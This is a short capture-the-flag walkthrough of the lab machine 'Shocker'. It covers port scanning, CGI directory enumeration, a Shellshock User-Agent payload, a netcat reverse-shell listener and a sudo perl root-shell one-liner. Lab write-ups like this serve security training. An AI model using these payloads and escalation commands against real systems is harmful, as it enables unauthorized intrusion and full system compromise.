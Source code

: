 # Shocker

# Recon

### PortScanning

`nmap -A -sVC -T4 -oN nmap 10.10.10.56`

![Untitled](images/Untitled.png)

Lets add the IP to `hosts` file

![Untitled](images/Untitled%201.png)

## Web

After some time trying to find something found the `/cgi-bin/` directory with 403, then just found the file `user.sh`

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/ -x sh,pl`

![Untitled](images/Untitled%202.png)

Read the contents of that file

![Untitled](images/Untitled%203.png)

### Exploiting

Test for `shellshock` exploit, in my case i used this payload inside the `User-Agent: () { :; }; /bin/bash -c "sleep 5”`

![Untitled](images/Untitled%204.png)

We can verify that it took 5 seconds, so its time to get a reverse shell

Open a netcat listener

`nc -lvnp 1337`

![Untitled](images/Untitled%205.png)

Here set you IP, Port and hit send

![Untitled](images/Untitled%206.png)

Now inside the netcat we got the connection

![Untitled](images/Untitled%207.png)

## Privilege Escalation

Check what we can run as root `sudo -l`

![Untitled](images/Untitled%208.png)

We can run perl as root, by running `sudo /usr/bin/perl -e 'exec "/bin/sh";’` we are root

![Untitled](images/Untitled%209.png)
